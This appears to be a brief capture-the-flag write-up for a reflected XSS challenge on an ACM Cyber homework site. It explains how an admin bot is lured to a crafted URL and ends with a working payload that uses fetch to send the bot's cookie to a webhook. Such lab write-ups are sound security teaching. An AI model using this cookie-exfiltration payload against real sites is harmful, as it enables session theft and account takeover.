


An attack through a reflected XSS vulnerability is employed
through social engineering: the victim would have to click
a url supplied by the attacker.
The site, homework-xss.acmcyber.com, is
vulnerable to reflected XSS. If the field is filled with
simple html javascript
<script> alert(1) </script>
a popup is triggered when submitted. The idea is to get
the flag which is usually stored as a cookie on the victims
browser.


The Admin Bot acts as a victim that visits
the webpage. Using this Bot, we want to send a manipulated URL
with the reflected XSS that allows us to access the bot's
cookie. This can be done using the fetch API and Webhook which allows
you to view requests to a provided URL. The following malicious
url uses a javascript template literal to insert the bot's
cookie into the url parameter of the webhook url when the bot
visits the url.
https://homework-xss.acmcyber.com/hw?submission=
<script>fetch(`[WEBHOOK_SITE_URL]/?q=${document.cookie}`)</script>